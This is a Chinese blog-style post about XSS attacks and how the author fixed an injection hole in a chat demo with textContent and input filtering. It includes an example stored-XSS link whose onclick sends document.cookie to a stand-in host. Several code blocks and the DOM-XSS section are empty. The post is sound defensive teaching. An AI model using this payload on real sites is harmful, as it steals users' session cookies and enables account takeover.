


这一篇文章主要是对 `安全性` 的思考，首先了解一下一些常见的网络攻击
# xss跨站点脚本攻击
XSS是注入攻击的一种，其特点是不对服务器造成任何伤害，而是通过一些正常的站内交互途径，发布含有js的攻击代码，如果服务器没有没有过滤或者转义这些脚本，作为内容发布到了页面上，其他用户访问这个页面时会运行这些脚本
## 储存型XSS
也叫作 `持久性XSS`，会把攻击者的数据储存在服务器端，攻击行为将伴随攻击数据一直存在。
**举个栗子**
1. 攻击者以一个普通用户登录进来，然后在输入框提交以下数据

```js
<a href=# onclick=\"document.location=\'http://abc.com/xss.php?c=\'+escape\(document.cookie\)\;\">更多</a>
```
攻击者提交了这条带标签的数据，该条数据保存在数据库中，而当用户user登录后点击 `更多`时，在 `"abc.com"` 所在的服务器上，攻击者就可以窃取到user的sessionID。有了该sessionID，攻击者在会话有效期内可以获得user权限
## 反射型XSS
即被动的`非持久性XSS`,通过篡改页面，诱骗用户点击带攻击代码的链接。XSS代码出现在URL中，作为输入提交到服务器中，服务器解析后响应，XSS代码随着响应内容一起传回浏览器，由浏览器解析执行XSS代码，从而攻击用户。
## DOM-XSS
# 在本次项目中的漏洞(部分)
完成demo后，我并没有对用户的输入进行过滤然后尝试了一下``标签的脚本注入发现：
```js

```



结果：轻而易举得到了用户名。显然,如果不做过滤想要得到用户的密码也是十分简单的
# 解决方案
一. 将 `innerHTML`替换成 `textContent`

innerHTML和 textContent区别：
>innerHTML 返回 HTML 文本。通常，为了在元素中检索或写入文本，人们使用innerHTML。但是，textContent通常具有更好的性能，因为文本不会被解析为HTML。此外，使用textContent可以防止  XSS 攻击。
```js

```


#### **不过这种方案存在一个问题，就是无法发送图片。我暂时也没有一个好一点的思路，还请大家指教一下~**

二. input输入框登录名验证

```js
var username = document.getElementById('username').value;
var legal = true,
    pattern = new RegExp("[<>`/?!%']|~")
if (username.trim() != '') {
    if (pattern.test(username)) {
        alert("昵称不能包含特殊字符:[<>`/?!%']|~~")
            return false
        }
    else that.socket.emit('login', username)  //不为空，发起一个login事件并将输入的昵称发送到服务器
}
else {
    alert('昵称不能为空')
    document.getElementById('username').focus() //否则输入框获得焦点
}
```

 
# 总结
总而言之，我们不能信任用户的任何输入，只要是需要用户输入的地方都需要做数据的验证和过滤。尤其是对`<input>`,``等标签需要格外的注意。
当然，仅仅前端做过滤是没有用的，用户可以绕过前端的验证，将数据传送到后端。后端必须对前端传过来的数据进行再次验证。